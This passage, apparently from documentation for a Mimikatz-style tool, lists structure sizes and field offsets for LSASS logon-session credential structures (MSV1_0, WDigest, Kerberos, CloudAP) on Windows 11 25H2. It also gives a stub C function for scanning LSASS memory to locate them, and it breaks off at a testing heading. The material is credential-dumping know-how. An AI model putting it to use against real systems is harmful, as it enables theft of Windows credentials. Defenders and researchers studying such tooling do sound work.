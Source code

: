 ## Structure Size Constants

### Size Definitions for Windows 11 25H2

```c
#define KIWI_MSV1_0_LIST_64_25H2_SIZE       0x130
#define KIWI_WDIGEST_LIST_ENTRY_25H2_SIZE   0x88
#define KIWI_KERBEROS_LOGON_SESSION_25H2_SIZE 0x150
#define KIWI_CLOUDAP_LOGON_LIST_ENTRY_25H2_SIZE 0xC0

// Offsets (x64)
#define OFFSET_WIN11_25H2_LogonSessionList      0x00  // Pattern-based
#define OFFSET_WIN11_25H2_UserName              0x90
#define OFFSET_WIN11_25H2_Domain                0xA0
#define OFFSET_WIN11_25H2_Credentials           0x108
#define OFFSET_WIN11_25H2_pSid                  0xD0
#define OFFSET_WIN11_25H2_LogonType             0xD8
#define OFFSET_WIN11_25H2_Session               0xE8
#define OFFSET_WIN11_25H2_LogonTime             0xF0
#define OFFSET_WIN11_25H2_LogonServer           0xF8
```

## Dynamic Offset Resolution

### Automated Structure Detection

```c
typedef struct _STRUCTURE_FINGERPRINT {
    CHAR *name;
    DWORD expectedSize;
    BYTE pattern[32];
    BYTE mask[32];
    DWORD patternSize;
} STRUCTURE_FINGERPRINT;

BOOL DetectStructureLayout(PKULL_M_MEMORY_HANDLE hLsass,
                          STRUCTURE_FINGERPRINT *fingerprints,
                          DWORD fingerprintCount,
                          PVOID *offsets) {
    // Scan LSASS memory for known patterns
    // Calculate structure offsets dynamically
    // Validate structure consistency
    // Return success/failure

    return TRUE;
}
```

## Testing and Validation
